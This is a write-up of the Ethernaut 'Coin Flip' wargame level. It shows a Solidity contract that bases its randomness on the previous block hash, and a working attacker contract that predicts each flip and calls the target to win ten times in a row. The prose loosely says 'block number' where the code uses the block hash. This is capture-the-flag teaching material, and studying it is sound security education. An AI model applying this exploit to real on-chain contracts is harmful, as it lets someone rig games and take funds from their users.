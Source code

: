 # Level 3: Coin Flip

This is the level 3 of [Ethernaut](https://ethernaut.openzeppelin.com/) game.

## Pre-requisites
- [Blocks](https://ethereum.org/en/developers/docs/blocks/) in Ethereum blockchain
- Solidity - interacting with a deployed contract at an address. Read [this](https://solidity-by-example.org/interface/) or better watch [this](https://www.youtube.com/watch?v=YWtT0MNHYhQ)

## Hack

Given contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract CoinFlip {

  using SafeMath for uint256;
  uint256 public consecutiveWins;
  uint256 lastHash;
  uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

  constructor() public {
    consecutiveWins = 0;
  }

  function flip(bool _guess) public returns (bool) {
    uint256 blockValue = uint256(blockhash(block.number.sub(1)));

    if (lastHash == blockValue) {
      revert();
    }

    lastHash = blockValue;
    uint256 coinFlip = blockValue.div(FACTOR);
    bool side = coinFlip == 1 ? true : false;

    if (side == _guess) {
      consecutiveWins++;
      return true;
    } else {
      consecutiveWins = 0;
      return false;
    }
  }
}
```

Basically, we need to predict outcome of coin flip correctly 10 times in a row to win.

The contract given tries to simulate random coin flip by generating `true` or `false` using the block number of network (Ropsten in our case). But this is not actually really random! You can very easily query the network to see the current block number.

Turns out random number generation is one of the serious pitfalls of blockchains due to deterministic nature. That's why there are dedicated services for the purpose like [Chainlink VRF](https://blog.chain.link/random-number-generation-solidity/).

Since this block number can be easily accessible, we can also generate the result of coin flip and feed this result to `flip` function to have a correct guess and increment `consecutiveWins`. We are able to do this because block time of the network will be long enough so that `block.number` doesn't change between function calls.

We'll write a solidity contract (on Remix IDE) with almost same coin-flip generation code `CoinFlipGuess` & call the `flip` of given `CoinFlip` contract at deployed instance address, with already determined result of flip:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface ICoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract CoinFlipGuess {
    uint256 public consecutiveWins = 0;
    uint256 lastHash;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    function coinFlipGuess(address _coinFlipAddr) external returns (uint256) {
        uint256 blockValue = uint256(blockhash(block.number - 1));

        if (lastHash == blockValue) {
          revert();
        }

        lastHash = blockValue;
        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        bool isRight = ICoinFlip(_coinFlipAddr).flip(side);
        if (isRight) {
            consecutiveWins++;
        } else {
            consecutiveWins = 0;
        }

        return consecutiveWins;
    }
}
```

I'm keeping track of `consecutiveWins` in `CoinFlipGuess` too and returning it from `coinFlipGuess`, just so that I can see it increasing.

Remember to deploy the above contract on Ropsten network because the target - `CoinFlip` is on Ropsten too. 

Get the instance address of give `CoinFlip` instance, so that we can give it to `coinFlipGuess` as param:

```javascript
contract.address()

// Output: <your-instance-address>
```

Now, simply call `coinFlipGuess` method (on Remix) with `<your-instance-address>` as only parameter, 10 times with successful transaction.

Go back to console and query `consecutiveWins` from `CoinFlip` instance:
```javascript
await contract.consecutiveWins().then(v => v.toString())

// Output: '10'
```

You may be tempted to run a loop to call `coinFlipGuess` 10 times automatically, but it won't work because of the guard `if` statement in `CoinFlip`:
```

if (lastHash == blockValue) {
   revert();
}
```
The invocation will revert if block number was same as in previous invocation. Since `lastHash` / `blockValue` is derived from `block.number`.

Game rigged successfully.

_Learned something awesome? Consider starring the [github repo](https://github.com/theNvN/ethernaut-openzeppelin-hacks)_ 😄

_and following me on twitter [here](https://twitter.com/heyNvN)_ 🙏
